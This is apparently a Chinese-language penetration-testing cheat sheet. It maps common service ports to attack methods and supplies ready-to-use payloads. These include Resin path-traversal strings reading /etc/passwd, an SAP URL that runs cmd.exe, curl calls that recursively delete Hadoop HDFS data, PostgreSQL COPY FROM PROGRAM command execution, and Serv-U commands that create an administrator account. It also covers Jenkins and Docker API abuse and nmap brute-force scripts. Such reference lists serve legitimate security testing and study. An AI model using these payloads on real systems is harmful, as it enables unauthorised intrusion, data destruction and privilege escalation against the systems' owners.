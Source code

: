 文件共享服务端口：
21/22/69 -》Ftp/Tftp文件传输协议 -》匿名上传、下载、爆破、嗅探
2049 -》Nfs服务 -》配置不当
139 -》samba服务 -》爆破、未授权访问 、远程代码执行
389 -》Ldap 目录访问协议 -》注入、允许匿名访问、弱口令

远程连接服务端口：
22 -》SSH远程连接 -》爆破、SSH隧道及内网代理转发 -》文件传输
23 -》Telnet远程连接 - 》嗅探、爆破、弱口令
3389 -》Rdp远程桌面连接 -》shift后门（需要windows sever 2003 以下的系统）、爆破
5900 -》vnc -》弱口令爆破
5632 -》PyAnyphere -》抓密码、代码执行

web应用服务端口：
80/443/8080 -》常见的Web服务端口-》web攻击、爆破、对应服务器版本漏洞
7001/7002 -》weblog ic控制台 -》java反序列化、弱口令
8080 -》Jboss/Resin/Jetty/Jenkins -》反序列化、控制台弱口令
9090 -》WebSphere控制台 -》Java反序列化、弱口令
4848 -》GlassFish控制台 -》弱口令
1352 -》Lotus domino 邮件服务 -》弱口令、信息泄露、爆破
10000 -》Webmin-Web控制面板 -》弱口令

数据库服务端口：
3306 -》MySQL -》注入、提权、爆破
1433 -》MSSQL -》注入、提权、SA弱口令、爆破
1521 -》Oracle -》TNS爆破、注入、反弹shell
5432 -》PostgreSQL -》爆破、注入、弱口令
27017/27018 -》MongoDB -》爆破、未授权访问
6379 -》redis -》未授权访问、弱口令爆破
5000 -》SysBase/DB2 -》爆破、注入

邮件服务端口：
25 -》SMTP邮件服务 -》邮件伪造
110 -》POP3协议 -》爆破、嗅探
143 -》IMAP协议 -》爆破

网络常见协议端口：
53 -》DNS域名系统 -》允许区域传送、DNS劫持、缓存投毒、欺骗
67/68 -》DHCP服务 -》劫持、欺骗
161 -》SNMP协议 -》爆破、搜集目标内网信息

特殊服务端口：
2181 -》Zookeeper服务 -》未授权访问
8069 -》Zabbix服务 -》远程代码执行、SQL注入
9200/9300 -》Elasticsearch服务-》远程代码执行
11211 -》Memcache服务-》未授权访问
512/513/514 -》Linux Rexec服务-》爆破、Rlogin登录
873 -》Rsync服务-》匿名访问、文件上传
3690 -》Svn服务 -》Svn泄露、未授权访问
50000 -》SAP Management Console -》远程代码执行

1、远程管理端口

22 端口（SSH）
安全攻击：弱口令、暴力猜解、用户名枚举
利用方式：
1、通过用户名枚举可以判断某个用户名是否存在于目标主机中，
2、利用弱口令/暴力破解，获取目标主机权限。

23 端口（Telnet）
安全漏洞：弱口令、明文传输
利用方式：
1、通过弱口令或暴力破解，获取目标主机权限。
2、嗅探抓取telnet明文账户密码。

3389 端口（RDP）
安全漏洞：暴力破解
利用方式：通过弱口令或暴力破解，获取目标主机权限。

5632 端口（Pcanywhere）
安全漏洞：弱口令、暴力破解
利用方式：通过弱口令或暴力破解，获取目标主机权限

5900 端口（VNC）
安全漏洞：弱口令、暴力破解
利用方式：通过弱口令或暴力破解，获取目标主机权限。


2、Web中间件/服务端口

1090/1099 端口（RMI）
安全漏洞：JAVA RMI 反序列化远程命令执行漏洞
利用方式：使用nmap检测端口信息。
端口信息：1099/1090    Java-rmi    Java RMI Registry
检测工具：attackRMI.jar

7001 端口（Weblogic）
安全漏洞：弱口令、SSRF、反序列化漏洞
利用方式：
1、控制台弱口令上传war木马
2、SSRF内网探测
3、反序列化远程代码执行等

8000 端口（jdwp）
安全漏洞：JDWP 远程命令执行漏洞
端口信息：
8000             jdwp           java Debug Wire Protocol
检测工具：https://github.com/IOActive/jdwp-shellifier

8080 端口（Tomcat）
安全漏洞：弱口令、示例目录
利用方式：通过弱口令登录控制台，上传war包。

8080 端口（Jboss）
安全漏洞：未授权访问、反序列化。
利用方式：
1、未授权访问控制台，远程部署木马
2、反序列化导致远程命令执行等。
检测工具：https://github.com/joaomatosf/jexboss

8080 端口（Resin）
安全漏洞：目录遍历、远程文件读取
利用方式：通过目录遍历/远程文件读取获取敏感信息，为进一步攻击提供必要的信息。
任意文件读取POC：
payload1 = "/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd"
payload2 = "/resin-doc/examples/jndi-appconfig/test?inputFile=../../../../../../../../../../etc/passwd"
payload3 = "/ ..\\\\web-inf"

8080 端口（Jetty）
安全漏洞：远程共享缓冲区泄漏
利用方式：攻击者可以通过精心构造headers值来触发异常并偏移到共享缓冲区，其中包含了之前其他用户提交的请求，服务器会根据攻击者的payload返回特定位置的数据。
检测工具：https://github.com/GDSSecurity/Jetleak-Testing-Script

8080 端口（GlassFish）
安全漏洞：弱口令、任意文件读取
利用方式：
1、弱口令admin/admin，直接部署shell
2、任意文件读取获取服务器敏感配置信息

8080 端口（Jenkins）
安全漏洞：未授权访问 、远程代码执行
利用方式：访问如下url，可以执行脚本命令，反弹shell，写入webshell等。
http://<target>:8080/manage
http://<target>:8080/script

8161 端口（ActiveMQ）
安全漏洞：弱口令、任意文件写入、反序列化
利用方式：默认密码admin/admin登陆控制台、写入webshell、上传ssh key等方式。

9043 端口（webSphere）
安全漏洞：控制台弱口令、远程代码执行
后台地址：https://:9043/ibm/console/logon.jsp

50000 端口 （SAP）
安全漏洞：远程代码执行
利用方式：攻击者通过构造url请求，实现远程代码执行。
POC:http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all

50070 端口（hadoop）
安全漏洞：未授权访问
利用方式：攻击者可以通过命令行操作多个目录下的数据，如进行删除操作。
curl -i -X DELETE “http://ip:50070/webhdfs/v1/tmp?op=DELETE&recursive=true“
curl -i -X PUT “http://ip:50070/webhdfs/v1/NODATA4U_SECUREYOURSHIT?op=MKDIRS“

3、数据库端口

389 端口（ldap）
安全漏洞：未授权访问 、弱口令
利用方式：通过LdapBrowser工具直接连入。

1433 端口（Mssql）
安全漏洞：弱口令、暴力破解
利用方式：差异备份getshell、SA账户提权等

1521 端口（Oracle）
安全漏洞：弱口令、暴力破解
利用方式：通过弱口令/暴力破解进行入侵。

3306 端口（MySQL）
安全漏洞：弱口令、暴力破解
利用方式：利用日志写入webshell、udf提权、mof提权等。

5432 端口（ PostgreSQL）
安全漏洞：弱口令、高权限命令执行
利用方式：攻击者通过弱口令获取账号信息，连入postgres中，可执行系统命令。。
PoC参考：
    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;

5984 端口（CouchDB）
安全漏洞：垂直权限绕过、任意命令执行
利用方式：通过构造数据创建管理员用户，使用管理员用户登录，构造恶意请求触发任意命令执行。
后台访问：http://<target>:5984/_utils

6379 端口（Redis）
安全漏洞：未授权访问
利用方式：绝对路径写webshell 、利用计划任务执行命令反弹shell、
公私钥认证获取root权限、主从复制RCE等。

9200 端口（elasticsearch）
安全漏洞：未授权访问、命令执行
检测方式：
1、直接访问如下url，获取相关敏感信息。
  http://<target>:9200/_nodes  查看节点数据
  http://<target>:9200/_river  查看数据库敏感信息
2、通过构造特定的数据包，执行任意命令。

11211 端口（MemCache）
安全漏洞：未授权访问
检测方式：无需用户名密码，可以直接连接memcache 服务的11211端口。
nc -vv <target> 11211

27017 端口（Mongodb）
安全漏洞：未授权访问、弱口令
利用方式：未授权访问/弱口令，远程连入数据库，导致敏感信息泄露。

4、常见协议端口

21 端口（FTP)
安全漏洞：1、配置不当    2、明文传输    3、第三方软件提权
利用方式：
1、匿名登录或弱口令
2、嗅探ftp用户名和密码
3、Serv-U权限较大的账号可导致系统命令执行。FTP提权命令：
增加系统用户
Quote site exec net user 4567 4567 /add
提升到管理员权限
Quote site exec net localgroup administrators 4567 /add

25 端口（SMTP）
攻击方式：1、匿名发送邮件 2、弱口令 3、SMTP用户枚举
利用方式：
1、SMTP服务器配置不当，攻击者可以使用任意用户发送邮件。
2、SMTP弱口令扫描，获取用户账号密码，发送邮件钓鱼。
3、通过SMTP用户枚举获取用户名：
   nmap -p 25 -- smtp-enum-users.nse <target>

53 端口（DNS）
安全攻击：1、DNS域传送漏洞、DNS欺骗、DNS缓存投毒
检测方式：
1、DNS域传送漏洞，Windows下检测使用nslookup命令，Linux下检测使用dig命令，通过执行命令可以清楚的看到域名解析情况。
2、DNS欺骗就是攻击者冒充域名服务器的一种欺骗行为。
3、DNS缓存投毒是攻击者欺骗DNS服务器相信伪造的DNS响应的真实性。

161 端口（SNMP）
安全漏洞：默认团体名/弱口令访问
利用方式：通过nmap自带的审计脚本进行检测，可能导致敏感信息泄露。。
1、弱口令检测：nmap –sU –p161 –script=snmp-brute <target>
2、获取系统信息：nmap –sU –p161 –script=snmp-sysdescr <target>
3、获取用户信息：nmap -sU -p161 --script=snmp-win32-user <target>
4、获取网络端口状态：nmap -sU -p161 --script=snmp-netstat <target>

443 端口（SSL）
安全漏洞：OpenSSL 心脏出血
利用方式：攻击者可以远程读取存在漏洞版本的openssl服务器内存中长大64K的数据。
扫描脚本：nmap -sV --script=ssl-heartbleed <target>

445 端口（SMB）
安全漏洞：信息泄露、远程代码执行
利用方式：可利用共享获取敏感信息、缓冲区溢出导致远程代码执行，如ms17010。

873 端口（Rsync）
安全漏洞：匿名访问、弱口令
利用方式：攻击者可以执行下载/上传等操作，也可以尝试上传webshell。
1、下载：#rsync -avz a.b.c.d::path/file path/filiname  
2、上传：#rsync -avz path/filename a.b.c.d::path/file

2181 端口（Zookeeper）
安全漏洞：未授权访问
检测方式：攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。
echo envi | nc ip port

2375 端口（Docker）
安全漏洞：未授权方式
检测方式：通过docker daemon api 执行docker命令。
列出容器信息，效果与docker ps -a 一致。
curl http://<target>:2375/containers/json
docker -H tcp://<target>:2375 start <Container Id>